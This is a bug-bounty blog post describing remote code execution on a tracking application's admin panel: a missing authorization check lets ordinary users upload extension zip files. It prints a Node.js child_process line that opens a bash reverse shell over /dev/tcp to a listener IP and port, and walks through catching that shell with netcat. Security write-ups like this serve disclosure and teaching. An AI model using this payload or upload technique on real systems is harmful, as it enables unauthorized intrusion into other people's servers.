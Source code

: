 ```yaml
---
layout: post
title:  "RCE on Application’s Tracking Admin Panel"
date:   2023-09-03 21:39:54 +0530
categories: Bugbounty
---
```


In this blog post, we’ll explore some intriguing scenarios where the add extension functionality in a particular subdomain can be exploited to enable a Remote Code Execution vulnerability. The application in question is a tracking system that can monitor study hours, walking distance, and, if using the Android version, application usage levels. By delving into the specifics of this potential vulnerability and its potential impact, we hope to provide valuable insights for both developers and security professionals.

![]({{ site.baseurl }}/assets/images/rce-1.png)

## Vulnerability in Tracking Application’s Admin Panel

A concerning vulnerability has been identified in the admin panel of the Tracking application. Specifically, when creating an extension, the application fails to implement proper authorization checks for all users. This means that regular users can upload extensions without restriction via the admin panel, potentially leading to remote code execution. Addressing this vulnerability by implementing proper authorization checks is critical to preventing unauthorized access and maintaining the security of the application. It highlights the importance of implementing robust access controls and security measures to protect against potential exploits and vulnerabilities.
Carrying Out the File Upload Attack

In order to successfully submit an extension upload, we must first create two required file types: a JavaScript file containing the extension’s code and a JSON file containing metadata like the extension’s name, version and description. By compiling these two files along with any other necessary files into a ZIP archive and uploading that, our extension is more likely to pass the initial review process due to being properly organized and containing all required files

Now, let’s write some javascript code that will send the reverse shell to our listening server

```js
require(‘child_process’).exec(‘bash -c “bash -i >& /dev/tcp/192.168.0.143/9999 0>&1"’) 
```

In the provided code snippet, we utilize the Node.js child process module. Node.js typically operates as a single-threaded, non-blocking system, which can struggle with increasing workloads. However, the child_process module solves this issue by allowing for the spawning of child processes. These child processes can communicate with each other using a built-in messaging system.

We make use of the exec() child process to execute system commands, specifically to establish a reverse TCP connection to our listener server. This allows remote access to the system and the potential exploitation of vulnerabilities. It is critical to note that such actions should only be performed with permission and in a controlled testing environment to avoid any negative impact on the system or its users.

To create an extension for the Tracking application, a metadata file is required. This file contains essential information about the extension, such as its UUID, name, and description. Here is a basic example that we can use:

```json
{
"name": "Test"
}
```

This metadata file is necessary for the proper functioning of the extension and must be included when uploading the extension to the application. Ensuring that all required files and information are included when creating and uploading extensions is critical to maintaining the security and integrity of the application.

It is important to note that the admin console of the Tracking application can be accessed by authenticated users through the subdirectory `/admin`. However, as there is no proper authentication mechanism in place for the admin panel, low-privileged users may also be able to access it. This highlights the significance of implementing appropriate security measures and access controls to prevent unauthorized access and maintain the security of the application.

![]({{ site.baseurl }}/assets/images/rce-2.png)

The Tracking application’s admin panel includes an option to upload extensions via the extension tab in the frontend. It is important to note that the upload functionality only accepts zip files and does not support any other file extensions. This restriction is intended to prevent potential security vulnerabilities that could arise from the upload of unsupported file types.

![]({{ site.baseurl }}/assets/images/rce-3.png)

Let’s get down to business! We’re going to start a listening server on our local machine, upload a malicious zip file to the target application through the upload extension functionality, and voila! We’ve got ourselves a reverse shell on our netcat listener.

![]({{ site.baseurl }}/assets/images/rce-4.png)

As a result, you can see we got a reverse shell from daemon server of the application